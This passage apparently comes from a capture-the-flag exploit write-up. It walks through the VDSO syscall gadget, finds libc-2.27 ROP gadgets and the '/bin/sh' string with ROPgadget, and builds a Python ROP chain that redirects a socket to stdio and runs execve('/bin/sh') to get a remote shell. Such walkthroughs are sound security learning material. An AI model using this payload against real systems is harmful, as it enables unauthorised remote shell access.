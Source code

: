 `call DWORD PTR gs:0x10` jumps into [VDSO](https://en.wikipedia.org/wiki/VDSO)
and there:

```
pwndbg> disassemble *0xf7f98580,+16
0xf7f98580 <__kernel_vsyscall>       push   ecx
0xf7f98581 <__kernel_vsyscall+1>     push   edx
0xf7f98582 <__kernel_vsyscall+2>     push   ebp
0xf7f98583 <__kernel_vsyscall+3>     mov    ebp, ecx
0xf7f98585 <__kernel_vsyscall+5>     syscall 
0xf7f98587 <__kernel_vsyscall+7>     int    0x80
0xf7f98589 <__kernel_vsyscall+9>     pop    ebp
0xf7f9858a <__kernel_vsyscall+10>    pop    edx
0xf7f9858b <__kernel_vsyscall+11>    pop    ecx
0xf7f9858c <__kernel_vsyscall+12>    ret    
```

The `syscall ; int 0x80` combo seems unusual - this is VDSO's mechanism to have
fast system calls, with a backwards compatibility. Tracing it with GDB, we see
that `syscall` returns to `pop ebp`.

Overall, as long as there are no errors, **0x000e795f** should be a good proxy
for a `syscall ; ret` gadget.

## Getting other gadgets for the second ROP

```bash
$ ROPgadget --binary=libc-2.27.so | grep -E ': pop e[abcd]x ; ret$' 
0x00024e1e : pop eax ; ret
0x00018d05 : pop ebx ; ret
0x00192891 : pop ecx ; ret
0x00001aae : pop edx ; ret

$ ROPgadget --binary=libc-2.27.so --string "/bin/sh"
0x0017e1db : /bin/sh
```

## Getting a remote shell

We now have all pieces for the second ROP payload:

```python
sockfd = 5
rop2 = 1024*b'D' + 32*b'U'
# sys_dup2(sockfd, STDIN_FILENO)
rop2 += p32(pop_eax) + p32(63)
rop2 += p32(pop_ebx) + p32(sockfd)
rop2 += p32(pop_ecx) + p32(0)
rop2 += p32(syscall)
# sys_dup2(sockfd, STDOUT_FILENO)
rop2 += p32(pop_eax) + p32(63)
rop2 += p32(pop_ebx) + p32(sockfd)
rop2 += p32(pop_ecx) + p32(1)
rop2 += p32(syscall)
# sys_dup2(sockfd, STDERR_FILENO)
rop2 += p32(pop_eax) + p32(63)
rop2 += p32(pop_ebx) + p32(sockfd)
rop2 += p32(pop_ecx) + p32(2)
rop2 += p32(syscall)
# sys_execve("/bin/sh", NULL, NULL)
rop2 += p32(pop_eax) + p32(11)
rop2 += p32(pop_ebx) + p32(bin_sh)
rop2 += p32(pop_ecx) + p32(0)
rop2 += p32(pop_edx) + p32(0)
rop2 += p32(syscall)
```
